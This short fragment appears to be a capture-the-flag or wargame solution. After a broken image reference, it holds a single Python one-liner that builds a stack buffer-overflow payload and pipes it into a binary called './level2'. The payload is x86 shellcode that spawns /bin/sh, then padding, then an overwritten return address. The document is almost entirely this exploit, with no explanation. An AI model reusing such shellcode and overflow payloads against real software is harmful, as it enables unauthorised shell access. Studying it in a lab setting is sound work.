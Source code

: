 python -c 'print("\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "A" * 57 + "\x08\xa0\x04\x08")' > /tmp/level2.txt; cat /tmp/level2.txt - | ./level2
